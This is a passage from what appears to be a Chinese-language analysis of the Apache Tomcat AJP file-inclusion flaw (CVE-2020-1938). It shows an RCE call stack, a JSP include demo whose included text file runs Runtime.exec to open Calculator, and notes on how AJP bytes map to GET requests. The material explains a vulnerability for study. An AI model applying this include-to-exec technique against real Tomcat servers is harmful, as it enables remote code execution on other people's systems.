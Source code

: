 最后附上RCE的调用栈

    Copy to clipboardexec:347, Runtime (java.lang)
    _jspService:1, _1_txt (org.apache.jsp)
    service:70, HttpJspBase (org.apache.jasper.runtime)
    service:741, HttpServlet (javax.servlet.http)
    service:476, JspServletWrapper (org.apache.jasper.servlet)
    serviceJspFile:386, JspServlet (org.apache.jasper.servlet)
    service:330, JspServlet (org.apache.jasper.servlet)
    service:741, HttpServlet (javax.servlet.http)
    internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
    internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    invoke:199, StandardWrapperValve (org.apache.catalina.core)
    invoke:96, StandardContextValve (org.apache.catalina.core)
    invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
    invoke:137, StandardHostValve (org.apache.catalina.core)
    invoke:81, ErrorReportValve (org.apache.catalina.valves)
    invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
    invoke:87, StandardEngineValve (org.apache.catalina.core)
    service:343, CoyoteAdapter (org.apache.catalina.connector)
    service:476, AjpProcessor (org.apache.coyote.ajp)
    process:66, AbstractProcessorLight (org.apache.coyote)
    process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
    doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
    run:49, SocketProcessorBase (org.apache.tomcat.util.net)
    runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
    run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
    run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
    run:745, Thread (java.lang)

**后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。

    Copy to clipboard//1.jsp
    <%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
    <%@ include file="1.txt" %>

    //1.txt
    <%@ Runtime.getRuntime().exec("open /System/Applications/Calculator.app");%>

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有`forwardrequest 2`，根据AJP数据包格式`第6个字节(02)代表是Get请求`。另外在Tomcat中也有相关映射关系，在
**AjpProcessor** 做 **prepareRequest**
处理的时候会根据字节选择相关的请求方式。

![](./resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId46.png)
